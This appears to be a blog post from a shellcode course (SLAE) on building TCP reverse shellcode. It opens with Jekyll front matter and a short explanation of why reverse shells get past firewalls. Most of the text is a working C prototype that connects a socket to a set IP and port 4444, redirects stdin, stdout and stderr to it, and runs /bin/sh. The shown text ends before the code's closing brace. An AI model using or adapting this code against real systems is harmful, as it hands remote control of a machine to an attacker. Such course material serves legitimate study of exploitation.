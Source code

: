 ```yaml
---
layout: single
title: TCP reverse shellcode
date: 2018-11-18 12:00:00
classes: wide
header:
  teaser: /assets/images/avatar
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - tcp reverse shellcode
---
```


A TCP reverse shell connects back to the attacker machine, then executes a shell and redirects all input & output to the socket. This is especially useful when a firewall denies incoming connections but allows outgoing connections.

### C prototype
---------------
First, a C prototype is created to test the functionality before building the final shellcode in assembly.

This is the C protype used for the reverse shellcode:
```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);    // Port
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");  // Connection IP

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Connect socket
    if (connect(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket connection failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Duplicate stdin, stdout, stderr to socket
    dup2(sock, 0); //stdin
    dup2(sock, 1); //stdout
    dup2(sock, 2); //stderr

    //Execute shell
    execve("/bin/sh", NULL, NULL);
```